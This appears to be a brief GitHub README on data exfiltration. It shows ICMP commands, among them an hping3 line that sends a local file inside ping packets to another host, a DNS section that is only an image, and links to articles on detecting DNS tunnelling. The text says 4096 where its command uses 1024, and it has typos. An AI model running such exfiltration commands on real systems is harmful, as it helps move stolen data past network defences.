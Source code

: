 # Techniques to exfiltrate data

## 1. ICMP echo request

Ping operates by sending Internet Control Message Protocol (ICMP) echo reqtest packets to the rarget host and waiting for an ICMP echo replay!

The following command will send a ping request with the size of 4096:

```
$ ping 127.0.0.1 -s 1024
```

The payload of 4096 is junk **until** you add your own payload:

```
$ sudo hping3 127.0.0.1 -1 --sign="Hello world!"
```

or even send a file:

```
$ sudo hping3 192.168.179.131 -1 --file send.txt --data 100
```

## 2. DNS queries

An image worth a thousand words...

![DNS Data Exfiltration](docs/dns_data_exfiltration.png)


## Resources: 

  * https://www.sans.org/reading-room/whitepapers/dns/detecting-dns-tunneling-34152
  *https://community.infoblox.com/t5/Community-Blog/DNS-Data-Exfiltration-How-it-works/ba-p/3664
